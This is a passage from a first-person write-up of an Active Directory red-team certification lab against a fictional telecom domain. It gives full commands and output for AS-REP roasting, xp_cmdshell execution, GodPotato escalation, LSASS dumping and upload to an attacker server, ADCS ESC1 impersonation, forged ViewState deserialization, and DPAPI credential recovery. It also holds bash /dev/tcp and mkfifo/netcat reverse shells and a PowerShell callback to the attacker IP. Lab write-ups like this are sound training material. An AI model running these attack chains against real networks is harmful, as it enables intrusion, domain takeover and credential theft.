

# From VPN Access to Domain Admin: My Certified AD Red Team Specialist \(AD\-RTS\) Exam

Made and wrote by Austin BC

A few months after finishing the CyberWarFare Labs course material, I worked through its AD\-RTS challenge lab\. The course covers Active Directory internals, Certificate Services abuse, Exchange Server security, and ESXi integration\. The practical assessment placed me inside a fictional telecom environment, TELECOM INC\., running telecore\.ad\. Its Domain Controller, SQL Server, PKI server, Exchange server, IIS application, and ESXi hypervisor formed an enterprise attack surface where each new level of access unlocked the next\.

The assessment presents two adversary perspectives\. The first begins with VPN connectivity and no domain credentials\. The second starts at a reachable ASP\.NET application and proceeds toward credentials, Active Directory access, and Exchange data\. The web application work was a distinct entry point, although I reused credentials recovered during the first path for some later steps\. I have separated those operations below so the evidence remains clear\.

## Attack Techniques Covered

The assessment covered DNS reconnaissance, PTR enumeration and AXFR zone transfers, anonymous LDAP queries, Kerberos AS\-REP roasting, offline password cracking, MSSQL xp\_cmdshell execution, and SeImpersonatePrivilege escalation with GodPotato\. Subsequent activity included LSASS memory dumping, credential extraction, ADCS ESC1 certificate abuse, PKINIT authentication, ESXi API and guest operations, and reverse shell troubleshooting\. The web path covered local file inclusion, ASP\.NET machineKey exposure, forged ViewState deserialization, IIS command execution, registry credential discovery, DPAPI recovery, Windows SMB access, scheduled task inspection, and Exchange Web Services mailbox enumeration\. Failed SMB transfers, payload generation attempts, and alternative token\-based decryption methods are included where they explain the working approach\.

The lab was reachable over OpenVPN at 10\.5\.2\.0/24\. Its main systems were DC01 \(10\.5\.2\.2\), PKI\-SRV \(10\.5\.2\.8\), Web\-Srv \(10\.5\.2\.10\), EX\-SRV \(10\.5\.2\.16\), SQL\-SRV \(10\.5\.2\.22\), and ESXI\-VD \(10\.5\.2\.111\)\. The Domain Controller ran Windows Server 2022; SQL\-SRV was identified separately as Windows Server 2016\.

## Path 1: Unauthenticated Adversary

The starting point was deliberately minimal: a /24 range reachable over VPN, without Active Directory credentials\. I needed an infrastructure map, a usable account, and a way to move from that account into the privileged services in the environment\.

### Reconnaissance through DNS, LDAP, and service enumeration

I began by looking at internal naming services\. A UDP sweep of port 53 identified multiple DNS servers, including a secondary instance that answered PTR lookups\. A reverse lookup sweep exposed records for the Domain Controller, SQL server, certificate authority, Exchange host, and hypervisor\. Testing AXFR against that secondary DNS server also returned the forward and reverse zones for telecore\.ad\. The underlying weakness was unrestricted zone transfer from a location accessible through the lab network\.

Anonymous LDAP RootDSE and directory enumeration exposed domain metadata and user and computer objects\. I filtered the resulting usernames to avoid Exchange service mailboxes and health accounts before preparing the Kerberos test list\. My surviving material documents the DNS zone transfer and LDAP results in prose rather than preserving the complete command output, so I have not manufactured a terminal transcript for them\.

A targeted TCP service scan independently established the reachable attack surface:

```
nmap -Pn -sV -p 80,443,445,1433,3389,5985,5986 10.5.2.0/24 --open --min-rate 500
```

```
10.5.2.2   DC01      445/tcp SMB, 3389/tcp RDP, 5985/tcp WinRM
10.5.2.8   PKI-SRV   443/tcp HTTPS
10.5.2.16  EX-SRV    443/tcp Exchange service (EWS later used port 444)
10.5.2.22  SQL-SRV   1433/tcp Microsoft SQL Server Express
10.5.2.111 ESXI-VD   443/tcp VMware ESXi
10.5.2.10  Web-Srv   80/tcp Microsoft IIS 10.0 / ASP.NET
```

The reconnaissance established PKI\-Srv\.telecore\.ad as the certificate authority hostname, 10\.5\.2\.111 as the hypervisor address, and six distinct open port numbers in the recorded scan\. SQL\-SRV was identified as Windows Server 2016\.

### AS\-REP roasting yielded the first domain credential

Kerberos preauthentication should prevent unauthenticated users from obtaining AS response material encrypted under an account’s password key\. The environment had at least one account with this requirement disabled\. With the enumerated names assembled into users\.txt, I queried the domain controller using Impacket:

```
impacket-GetNPUsers telecore.ad/ -usersfile users.txt -no-pass -dc-ip 10.5.2.2
```

```
$krb5asrep$23$tel_support01@TELECORE.AD:a1b2c3...  (truncated in source)
# tel_support01 does not require Kerberos preauthentication
```

I saved the AS\-REP material and used John the Ripper with rockyou for an offline dictionary attack:

```
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
#T3l3phon3! (tel_support01)
Session completed.
```

That recovered password belonged to tel\_support01\. This first credential was enough to test Windows authentication on the exposed SQL service\.

### From MSSQL access to operating system command execution

The SQL Server at 10\.5\.2\.22 accepted the newly recovered domain credential\. The client prompt showed a dbo context on the master database, and the subsequent configuration commands were accepted:

```
impacket-mssqlclient -windows-auth telecore.ad/tel_support01:'#T3l3phon3!'@10.5.2.22 -port 1433
```

```
[*] ENVCHANGE(DATABASE): master
[*] INFO(SQL-Srv\SQLEXPRESS): Changed database context to master.
SQL (TELECORE\tel_support01 dbo@master)>
```

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

```
telecore\tel_support01
```

I used xp\_cmdshell to test a writable location under the SQL service account’s temporary directory\. The successful file creation confirmed a staging path for later tooling:

```
EXEC xp_cmdshell 'echo test > C:\Windows\SERVIC~1\MSSQL$~1\AppData\Local\Temp\test.txt & dir C:\Windows\SERVIC~1\MSSQL$~1\AppData\Local\Temp';
```

```
07/27/2026 02:36 PM     8 test.txt
2 Dir(s) 28,624,723,968 bytes free
```

The SQL command returned telecore\\tel\_support01, while GodPotato later identified NT AUTHORITY\\NETWORK SERVICE as its starting execution context\. Those observations reflect different command and token contexts and should not be treated as interchangeable identities\.

### Transferring GodPotato and escalating to SYSTEM

The next objective was to abuse SeImpersonatePrivilege\. GodPotato relies on DCOM/RPC impersonation behavior to obtain a SYSTEM token when the service context and host configuration allow it\. Moving the executable through SMB was more troublesome than running it\.

```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O GodPotato-NET4.exe
ls -la GodPotato-NET4.exe
```

```
-rw-rw-r-- 1 calmay calmay 57344 Apr 11 2023 GodPotato-NET4.exe
```

The first SMB server launch without elevated privileges failed because port 445 required permission to bind\. Running with sudo solved that problem but not Windows guest authentication:

```
impacket-smbserver share ./ -smb2support
# PermissionError: [Errno 13] Permission denied
sudo impacket-smbserver share ./ -smb2support
EXEC xp_cmdshell 'copy /Y \\10.10.20.10\share\GodPotato-NET4.exe C:\Windows\SERVIC~1\MSSQL$~1\AppData\Local\Temp\gp.exe';
```

```
AUTHENTICATE_MESSAGE (TELECORE\SQL-SRV$,SQL-SRV)
Could not authenticate user!
You cannot access this shared folder because your organization's security policies block unauthenticated guest access.
```

The transfer succeeded once I started the Impacket share with a temporary username and password\. The following net use command authenticated and copied the executable:

```
sudo impacket-smbserver share ./ -smb2support -user a -password a
EXEC xp_cmdshell 'net use \\10.10.20.10\share /user:a a & copy /Y \\10.10.20.10\share\GodPotato-NET4.exe ...\gp.exe';
```

```
User SQL-SRV\a authenticated successfully
The command completed successfully.
1 file(s) copied.
# gp.exe verified: 57,344 bytes
```

The original transfer command contains an abbreviated destination, shown here with an ellipsis\. The filesystem check nevertheless confirmed that the complete executable reached SQL\-SRV\. I then ran a whoami test through GodPotato:

```
EXEC xp_cmdshell 'C:\Windows\SERVIC~1\MSSQL$~1\AppData\Local\Temp\gp.exe -cmd "cmd /c whoami"';
```

```
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] PID : 920 Token:0x756 User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] CurrentUser: NT AUTHORITY\SYSTEM
nt authority\system
```

The key finding was a successful elevation from the SQL service execution context to a SYSTEM impersonation context\. This supplied the privileges needed for the next credential collection step\.

### LSASS memory collection and a reliable transfer

With local escalation available, I identified the LSASS process and used the built\-in comsvcs\.dll MiniDump export through rundll32\. Some long Windows paths in my command transcript were abbreviated with ellipses; the commands below retain those abbreviations instead of pretending they are directly reusable as written\.

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c tasklist /fi \"imagename eq lsass.exe\""';
```

```
lsass.exe 696 Services 0 20,864 K
```

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 696 C:\...\Temp\l.dmp full"';
EXEC xp_cmdshell 'dir C:\Windows\SERVIC~1\MSSQL$~1\AppData\Local\Temp\l.dmp';
```

```
07/27/2026 02:46 PM 49,115,900 l.dmp
```

The 49 MB dump had been created under the elevated context\. To allow the SQL service account to read it, I adjusted the file ACL through GodPotato:

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c icacls C:\...\l.dmp /grant \"NT SERVICE\MSSQL$SQLEXPRESS\":R"';
```

```
Successfully processed 1 files; Failed processing 0 files
```

Direct SMB exfiltration repeatedly failed\. A plain copy returned Access is denied\. A SYSTEM\-initiated copy authenticated as SQL\-SRV$ rather than the temporary SMB user, and a guest share was blocked by Windows policy\. Even after using net use with explicit credentials, large transfers failed with an unexpected network error or produced corrupted results\.

```
EXEC xp_cmdshell 'copy /Y C:\...\l.dmp \\10.10.20.10\share\l.dmp';
# Access is denied. 0 file(s) copied.
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c copy /Y C:\...\l.dmp \\10.10.20.10\share\l.dmp"';
# AUTHENTICATE_MESSAGE (TELECORE\SQL-SRV$,SQL-SRV); Could not authenticate user!
EXEC xp_cmdshell 'net use \\10.10.20.10\share /user:a a & copy /Y C:\...\l.dmp \\10.10.20.10\share\l.dmp';
# An unexpected network error occurred. 0 file(s) copied.
```

Compression and an HTTP form upload finally worked\. I used makecab to reduce the file size, granted read access to the resulting cabinet file, and transferred it using curl to a Python upload server:

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c makecab C:\...\l.dmp C:\...\l.cab"';
# 19,178,314 bytes
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c icacls C:\...\l.cab /grant \"NT SERVICE\MSSQL$SQLEXPRESS\":R"';
pip install uploadserver && python3 -m uploadserver 8080 --directory ~/adrts
EXEC xp_cmdshell 'curl -X POST http://10.10.20.10:8080/upload -F "files=@C:\...\l.cab"';
```

The first HTTP upload stopped at 95 percent\. The second completed and appeared on Kali as l \(2\)\.cab\. I verified the received file against the source checksum before parsing it:

```
Source MD5:   1744e55697b02d8ae63a346400c9a463
Received MD5: 1744e55697b02d8ae63a346400c9a463
```

That checksum comparison mattered more than a successful progress bar\. The earlier SMB copies had appeared to transfer data but were not reliable enough to trust for offline credential parsing\.

### Parsing LSASS and enumerating the certificate authority

With the dump intact, I extracted it on Kali and parsed it with pypykatz:

```
pipx install pypykatz
cabextract ~/adrts/'l (2).cab' -d ~/adrts/
pypykatz lsa minidump ~/adrts/l.dmp
```

```
== MSV ==
Username: tel_engineer01
Domain: TELECORE
NT: e2b1996aaff0f57bccb916265a77970e
 
== Kerberos ==
Username: tel_engineer01
Password: None (not in memory)
```

The useful result was the NT hash for tel\_engineer01\. The Kerberos section did not contain a plaintext password, so the next step used hash\-based authentication rather than claiming a recovered password\.

Certipy was installed under the user’s local bin directory instead of the expected shell path\. After locating it, I enumerated vulnerable certificate templates using the recovered hash:

```
find /home/calmay -name "certipy*" 2>/dev/null
# /home/calmay/.local/bin/certipy
~/.local/bin/certipy find -u tel_engineer01@telecore.ad -hashes :e2b1996aaff0f57bccb916265a77970e -dc-ip 10.5.2.2 -vulnerable -stdout
```

```
Template: Tel_User
Enabled: True
Client Authentication: True
Enrollee Supplies Subject: True
Certificate Authorities: telecore-PKI-SRV-CA
Enrollment Rights: TELECORE\tel_engineer01
 
Template: User (also noted as ESC1)
```

The Tel\_User certificate template allowed an enrollee with the appropriate rights to supply the requested subject identity while retaining client authentication capability\. This exposed an ESC1 route\. The CA name was telecore\-PKI\-SRV\-CA, and the domain SID was S\-1\-5\-21\-1588247407\-410625039\-1511794522\.

### ESC1, SID binding, and Domain Administrator authentication

My initial request specified administrator@telecore\.ad as the UPN but omitted the Administrator SID\. The certificate was issued, yet the ensuing authentication failed with an object SID mismatch:

```
~/.local/bin/certipy req -u tel_engineer01@telecore.ad \
-hashes :e2b1996aaff0f57bccb916265a77970e \
-ca telecore-PKI-SRV-CA -template Tel_User \
-upn administrator@telecore.ad \
-dc-ip 10.5.2.2 -target 10.5.2.8
```

```
[*] Got certificate with UPN administrator@telecore.ad
[*] Certificate has no object SID
[-] Object SID mismatch between certificate and user
```

The first certificate had been issued successfully, but the KDC rejected its binding to the Administrator identity\. I repeated the request with the Administrator SID, using the domain SID with RID 500:

```
~/.local/bin/certipy req -u tel_engineer01@telecore.ad \
-hashes :e2b1996aaff0f57bccb916265a77970e \
-ca telecore-PKI-SRV-CA -template Tel_User \
-upn administrator@telecore.ad \
-dc-ip 10.5.2.2 -target 10.5.2.8 \
-sid S-1-5-21-1588247407-410625039-1511794522-500
```

```
[*] Got certificate with UPN administrator@telecore.ad
[*] Certificate object SID is S-1-5-21-1588247407-410625039-1511794522-500
[*] Wrote certificate and private key to administrator.pfx
```

Authentication with the issued PFX succeeded, and Certipy recovered the Administrator NT hash:

```
~/.local/bin/certipy auth -pfx administrator.pfx -dc-ip 10.5.2.2 -domain telecore.ad -username administrator
```

```
[*] SAN UPN: administrator@telecore.ad
[*] Security Extension SID: S-1-5-21-...-500
[*] Got TGT
[*] Got hash for administrator@telecore.ad:
aad3b435b51404eeaad3b435b51404ee:bfb19bca32a6aab8e0b9a836da860e32
```

Using the recovered NT hash as input to John yielded the plaintext password used in the later lab steps:

```
echo "bfb19bca32a6aab8e0b9a836da860e32" > da_hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt da_hash.txt
```

```
August1990password (?)
1g 0:00:00:01 DONE
```

I also found a nonstandard ESX Admins group while enumerating the domain\. The group was a useful clue that the domain and ESXi authentication models were connected; the group enumeration output is not part of the retained terminal excerpts\.

### Pivoting into ESXi and a Linux guest

The ESXi host at 10\.5\.2\.111 accepted the recovered domain credentials through the vSphere API\. I used pyVmomi to inspect the guest VM configuration, including the annotation field where operators often leave deployment notes:

```
pip install pyvmomi --break-system-packages
si = SmartConnect(host='10.5.2.111', user='administrator@telecore.ad',
                  pwd='August1990password', sslContext=ctx)
container = content.viewManager.CreateContainerView(
    content.rootFolder, [vim.VirtualMachine], True)
for vm in container.view:
    print(vm.name, vm.config.annotation)
```

```
VM: VaultVM
Annotation: Guest VM Credentials :
linux \ VaultAdmin@123
```

VaultVM exposed local guest credentials in its annotation\. Using an authenticated ESXi session and guest operations, I could start processes inside the VM with those guest credentials\. Several attempts to obtain an interactive shell failed before the working named\-pipe connection:

A VMware file transfer attempt failed with ConnectionRefusedError\. A bash /dev/tcp reverse shell did not connect\. A first netcat attempt also used an outdated VPN IP\. The attacker address had changed during an OpenVPN reconnect from 10\.10\.20\.10 to 10\.10\.20\.4\.

```
urllib.request.urlopen(fres.url, context=ctx2)
# ConnectionRefusedError: [Errno 111] Connection refused
arguments='-c "bash -i >& /dev/tcp/10.10.20.4/9001 0>&1"'
# No connection received
arguments='-c "cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.20.10 9001"'
# Listener IP was outdated
```

The working command used mkfifo and the corrected callback IP:

```
arguments='-c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.20.4 9001 > /tmp/f"'
nc -lvnp 9001
```

```
Connection received on 172.26.1.12 16274
Welcome to Linux Lite 7.4
linux ~ $
```

The expected flag was not at /root/flag\.txt\. Continuing the filesystem search led to the Linux user’s home directory:

```
sudo ls /root/
# /root/flag.txt: No such file or directory
cat /home/linux/Congrats.txt
```

```
ad_red_team_specialist
```

This completed the path from anonymous network access to SQL execution, SYSTEM impersonation, certificate\-based Domain Administrator access, ESXi guest operations, and an interactive session on VaultVM\. The specific final flag was the content of /home/linux/Congrats\.txt\.

## Path 2: Web Application to Exchange Data

The second scenario was labelled “Authenticated Adversary,” but the initial IIS file inclusion and ViewState exploitation did not require a logged\-in web session\. I began with the reachable application, established code execution as the IIS pool identity, and worked outward from there\. Some later commands used the Administrator access already obtained during Path 1\.

### Finding the report parameter and proving LFI

The service at 10\.5\.2\.10 was an ASP\.NET Web Forms application running on IIS 10\. The first reconnaissance pass checked the HTTP response, the hidden ViewState fields, and the links in the page:

```
nmap -Pn -sV -p 80,443 10.5.2.10 --min-rate 500
curl -s http://10.5.2.10/ | grep -i "viewstate\|GENERATOR\|form\|input"
```

```
80/tcp open http Microsoft IIS httpd 10.0
443/tcp closed https
<input type="hidden" name="__VIEWSTATE" value="/wEPDwUK..." />
<input type="hidden" name="__VIEWSTATEGENERATOR" value="CA0B0334" />
<input name="txtCustomerID" type="text" />
```

The VIEWSTATEGENERATOR value, CA0B0334, would later be needed when generating the serialized payload\. Navigational links exposed network\-reports\.aspx, where a report parameter was passed file paths directly:

```
curl -s http://10.5.2.10/ | grep -i "href"
curl -s "http://10.5.2.10/network-reports.aspx" | grep -i "input\|param\|href"
```

```
<a href="network-reports.aspx?report=reports/network-status.txt">Network Uptime</a>
<a href="network-reports.aspx?report=reports/5g-coverage.txt">5G Coverage</a>
```

Replacing the supplied relative report name with a traversal sequence retrieved a Windows configuration file, demonstrating local file inclusion:

```
curl -s "http://10.5.2.10/network-reports.aspx?report=../../../../windows/win.ini"
```

```
<pre>; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1</pre>
```

The vulnerable parameter was report\. I next used the same primitive to retrieve the web\.config machineKey values\. This linked the file\-read vulnerability directly to the application’s ViewState integrity boundary:

```
curl -s 'http://10.5.2.10/network-reports.aspx?report=../../../../inetpub/wwwroot/web.config' | sed 's/&lt;/</g; s/&gt;/>/g; s/&quot;/"/g'
```

```
<machineKey
 validationKey="56AB7132992003EE87F74AE4D9675D65EED8018D3528C0B8874905B51940DEAF6B85F1D922D19AB8F69781B2326A2F978A064708822FD8C54ED74CADF8592E17"
 decryptionKey="A69D80B92A16DFE1698DFE86D4CED630FA56D7C1661C8D05744449889B88E8DC"
 validation="SHA1" decryption="AES"/>
<httpRuntime relaxedUrlToFileSysTemMapping="true" />
```

The validation key, SHA1 algorithm, and generator value were the inputs for the next exploit\. The configuration also explicitly relaxed URL to filesystem mapping, which was consistent with the observed traversal behavior\.

### Hostname hunting before code execution

I initially attempted to identify the web machine without a shell\. Reading hosts yielded only default loopback information; accessing applicationHost\.config returned no useful content\. A NetSetup\.log read exposed a setup\-time machine name, WIN\-3336QDI1GMU, but it was not the accepted answer\. LDAP did not list the IIS host among the joined computer objects\.

```
curl -s "http://10.5.2.10/network-reports.aspx?report=../../../../windows/debug/NetSetup.log"
```

```
09/01/2025 NetpMachineValidToJoin: 'WIN-3336QDI1GMU'
OS Version: 10.0 Build 20348 - Windows Server 2022 Standard
```

Only after successful ViewState execution did hostname return Web\-Srv\. The failed read\-based lookups explain why the final hostname finding depended on an interactive shell rather than the earlier setup log\.

### Generating the ViewState payload despite Linux tooling failures

With the ASP\.NET signing material exposed, I used ysoserial\.net to produce a malicious ViewState using the TextFormattingRunProperties gadget\. The preferred gadget needed \.NET assemblies unavailable under Mono on Kali\. Installing mono\-complete did not resolve the missing WPF PresentationCore assembly\. TypeConfuseDelegate generated a null\-reference error, and Wine could not start the tool\.

```
mono ~/adrts/Release/ysoserial.exe -p ViewState -g TextFormattingRunProperties ...
# System.IO.FileNotFoundException: System.Transactions, Version=4.0.0.0
sudo apt install mono-complete -y
# System.IO.FileNotFoundException: PresentationCore, Version=4.0.0.0
mono ~/adrts/Release/ysoserial.exe -p ViewState -g TypeConfuseDelegate ...
# System.NullReferenceException
wine ~/adrts/Release/ysoserial.exe ...
# Application could not be started
```

The working approach was to move the entire Release directory to Windows SQL\-SRV, whose execution path I already controlled through MSSQL\. This preserved the dependent DLLs and avoided relying on Mono or Wine:

```
EXEC xp_cmdshell 'xcopy \\10.10.20.4\share\Release\*.* C:\...\Temp\ys\ /E /I /Y';
# 49 files copied, including DLLs
```

Native Windows was the workable environment for ysoserial\.net\. To avoid the quoting problems introduced by the SQL execution channel, I prepared a batch file, moved it to SQL\-SRV, and launched it through GodPotato\. The encoded command shown below was abbreviated in the command log:

```
C:\...\ys\ysoserial.exe -p ViewState -g TextFormattingRunProperties \
-c "powershell -enc SQBFAFYAKABOAGUA..." \
--validationalg=SHA1 \
--validationkey=56AB7132992003EE87F74AE4D9675D65EED8018D3528C0B8874905B51940DEAF... \
--generator=CA0B0334 --islegacy
EXEC xp_cmdshell 'copy \\10.10.20.4\share\run.bat C:\...\Temp\run.bat';
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c C:\...\run.bat > C:\...\payload.txt 2>&1"';
EXEC xp_cmdshell 'type C:\...\payload.txt';
```

```
Got a base64 ViewState payload.
```

### Forged ViewState and the IIS execution context

I submitted the forged ViewState to default\.aspx using the generator value observed in the page markup\. My retained snippets show the important POST fields and listener setup, but the PowerShell callback script is not complete enough to be pasted and run unchanged:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.20.4",9002)
$stream = $client.GetStream()
# Additional PowerShell reverse shell code omitted in source
payload = urllib.parse.unquote(payload_encoded)
data = {
    '__VIEWSTATE': payload,
    '__VIEWSTATEGENERATOR': 'CA0B0334',
    'btnLookup': 'Lookup',
}
requests.post('http://10.5.2.10/default.aspx', data=data)
nc -lvnp 9002
```

```
HTTP status: 500
Connection received on 172.26.1.12 2472
PS C:\windows\system32\inetsrv> whoami
iis apppool\root
PS C:\windows\system32\inetsrv> hostname
Web-Srv
```

The HTTP 500 response did not mean the payload failed: the reverse connection and whoami output demonstrated code execution as IIS AppPool\\root\. The same shell provided the accepted Web\-Srv hostname\.

### Discovering the encrypted registry credential

From the IIS shell I searched the registry and located the custom TelecomApp key under HKLM\\SOFTWARE\. It contained a domain account and a Base64 encoded encrypted value:

```
reg query HKLM\SOFTWARE /s /f 'Telecom' 2>$null | Select-String -Pattern 'Telecom|App'
reg query HKLM\SOFTWARE\TelecomApp
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\TelecomApp
UserName REG_SZ tel_admin01@telecore.ad
EncryptedPassword REG_SZ AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAOUxfpmwAV0WYA...
```

The registry contained a Base64\-encoded DPAPI password blob for tel\_admin01@telecore\.ad\. I first attempted to decrypt it in the IIS execution context with ProtectedData::Unprotect\. That attempt and several privileged execution variants did not return usable plaintext, so I worked through the machine\-key material offline instead\.

### DPAPI decryption: the methods that failed and the offline path that worked

A direct \.NET ProtectedData call from the IIS pool returned no useful output\. Executing similar snippets through several GodPotato binaries also failed to produce a plaintext result\. A SYSTEM scheduled task wrote an empty output file; PrintSpoofer did not yield results; and Mimikatz reported insufficient privilege or access while attempting to inspect LSA state\.

```
Add-Type -AssemblyName System.Security
$dec = [System.Security.Cryptography.ProtectedData]::Unprotect($b, $null, 'LocalMachine')
# No plaintext was captured
C:\Windows\Temp\gp.exe -cmd "powershell -c '..ProtectedData::Unprotect...'"
# Repeated with gp2.exe, gp3.exe, gp4.exe; no usable plaintext
schtasks /create /tn "dec" /tr "powershell ... | Out-File C:\...\out.txt" /ru SYSTEM ...
schtasks /run /tn "dec"
# out.txt remained 0 bytes
C:\Windows\Temp\ps64.exe -i -c "powershell ... ProtectedData::Unprotect ..."
# No output
C:\Windows\Temp\mimi.exe "privilege::debug" "sekurlsa::dpapi" "exit"
```

```
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

The failed attempts were consistent with token, process context, or output capture problems, but I did not isolate a single cause for every failure\. In particular, a LocalMachine DPAPI blob does not universally require a SYSTEM process for decryption; that was the result of these attempts on this host\. I switched to recovering the master\-key material offline\.

Using GodPotato, I created a temporary local administrator on Web\-Srv\. That account allowed an Impacket secretsdump request to recover the DPAPI\_SYSTEM machine and user keys:

```
C:\Windows\Temp\gp8.exe -cmd "cmd /c net user hacker P@ssw0rd123! /add && net localgroup administrators hacker /add"
impacket-secretsdump hacker:P@ssw0rd123!@10.5.2.10
```

```
[*] DPAPI_SYSTEM
dpapi_machinekey: 0x9ccc2c0225a544d8d2f696a0fbc24f546133ae92
dpapi_userkey: 0x4d34160e733c9db38d9ec69c29d6493de3c92601
```

I then accessed the S\-1\-5\-18 DPAPI master key file over SMB and used pypykatz to derive a prekey, decrypt the master key, and process the Base64 blob offline:

```
impacket-smbclient hacker:P@ssw0rd123!@10.5.2.10
# use C$
# cd Windows\System32\Microsoft\Protect\S-1-5-18
# get a65f4c39-006c-4557-9801-2805d29ec0c9
pypykatz dpapi prekey sha1 S-1-5-18 9ccc2c0225a544d8d2f696a0fbc24f546133ae92 -o prekeys.txt
pypykatz dpapi masterkey a65f4c39-... prekeys.txt -o masterkey.txt
python3 -c "import base64; open('blob.bin','wb').write(base64.b64decode('AQAAANC...'))"
pypykatz dpapi blob masterkey.txt $(python3 -c "print(open('blob.bin','rb').read().hex())")
```

```
HEX: 54336c40436f6d2331
```

```
python3 -c "print(bytes.fromhex('54336c40436f6d2331').decode())"
```

```
T3l@Com#1
```

The offline recovery produced the plaintext T3l@Com\#1 for tel\_admin01@telecore\.ad\. The distinction matters: the first direct Unprotect attempts did not give me this answer, whereas the subsequent secretsdump and pypykatz workflow did\.

### A second ADCS enrollment route

The recovered tel\_admin01 account also led to another enrollment route in the same ADCS infrastructure\. My work on this branch identified a different certificate template with the same ESC1 weakness, and I followed the certificate impersonation approach already established in Path 1\. I did not retain the second template name or a separate Certipy request and authentication transcript, so I am not reproducing invented parameters or output\. The DC and Exchange commands that follow explicitly use the Administrator credential recovered during the first path\.

This made the distinction between the two lab paths important\. The IIS and DPAPI foothold was reached independently of SQL, and the second ESC1 route was part of the investigation\. The surviving command evidence for the later Domain Controller and Exchange operations, however, uses the previously recovered Administrator identity rather than a separate tel\_admin01 certificate session\.

### Inspecting a Domain Controller task through the SQL pivot

With the previously recovered Administrator credential, I accessed the Domain Controller administrative share through the SQL host and GodPotato execution channel\. The scheduled task definition pointed at an Exchange mailbox automation script in the Administrator Downloads directory:

```
C:\...\gp.exe -cmd "cmd /c net use \\10.5.2.2\C$ /user:telecore\administrator August1990password"
C:\...\gp.exe -cmd "cmd /c dir \\10.5.2.2\C$\Windows\System32\Tasks\ /s"
```

```
\\10.5.2.2\C$\Windows\System32\Tasks\Exchange MailBox Programmatic Access
```

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c copy \\10.5.2.2\C$\Windows\System32\Tasks\Exchange* C:\...\Temp\task.xml"';
EXEC xp_cmdshell 'type C:\...\Temp\task.xml';
```

```
<Author>TELECORE\Administrator</Author>
<URI>\Exchange MailBox Programmatic Access</URI>
<Command>C:\Users\Administrator\Downloads\impersonate.ps1</Command>
```

```
EXEC xp_cmdshell 'C:\...\gp.exe -cmd "cmd /c type \\10.5.2.2\C$\Users\Administrator\Downloads\impersonate.ps1"';
```

```
$Username = "tel_ops1@telecore.ad"
$Password = "T3l@Net#2"
$LogPath = "C:\Logs\Migration\"
$TenantDomain = "telecore.ad"
```

The script exposed the operations account tel\_ops1 with password T3l@Net\#2 and a log path of C:\\Logs\\Migration\\\. It was configured for Exchange mailbox automation and identified the ApplicationImpersonation role as the relevant Exchange permission\. That privilege was an important finding even though the next mailbox\-reading command was run using a different identity\.

### Exchange Web Services and mailbox findings

The Exchange endpoint required more care than a standard port 443 URL\. Initial service discovery identified EX\-SRV, and the working Exchange Web Services path used TCP 444 with an NTLM session\. I added the hostname locally before using exchangelib:

```
curl -k --ntlm -u "telecore\administrator:August1990password" https://ex-srv.telecore.ad/EWS/Exchange.asmx
echo "10.5.2.16 ex-srv.telecore.ad EX-SRV" | sudo tee -a /etc/hosts
pip install exchangelib --break-system-packages
```

